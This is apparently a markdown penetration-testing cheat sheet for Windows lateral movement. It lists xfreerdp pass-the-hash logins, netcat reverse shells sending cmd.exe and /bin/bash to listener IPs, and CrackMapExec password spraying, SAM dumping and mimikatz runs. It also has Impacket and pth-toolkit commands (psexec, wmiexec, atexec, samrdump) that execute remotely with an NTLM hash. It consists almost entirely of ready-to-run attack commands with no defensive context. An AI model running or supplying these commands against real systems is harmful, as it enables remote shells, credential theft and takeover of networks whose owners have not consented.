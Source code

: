 ##### RDP

```bash
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```

##### NC

```powershell
nc.exe ip port -e cmd.exe
nc -lnvp 4444
```

##### Pass The Hash // CME // Impacket // NC

```powershell
nc.exe 172.21.24.11 443 -e cmd.exe
nc 172.21.23.100 443 -e /bin/bash
crackmapexec smb 192.168.1.101 -u user1 user2 user3 -p Summer18
crackmapexec smb 192.168.1.101 -u user1 -p password1 password2 password3
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -x 'whoami'
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -x 'net user Administrator /domain' --exec-method atexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -x 'net user Administrator /domain' --exec-method wmiexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -X '$PSVersionTable' --exec-method wmiexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --sam
crackmapexec smb -L
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -M mimikatz
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -M mimikatz -o COMMAND='privilege::debug'
python smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
pth-smbclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105/c$
python psexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
python wmiexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
pth-wmic -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105 "select Name from Win32_UserAccount"
python rpcdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
pth-rpcclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105
pth-net rpc share list -U 'ignite\Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38' -S 192.168.1.105
pth-winexe -U Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105 cmd.exe
python atexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105 whoami
python lookupsid.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
python samrdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
```
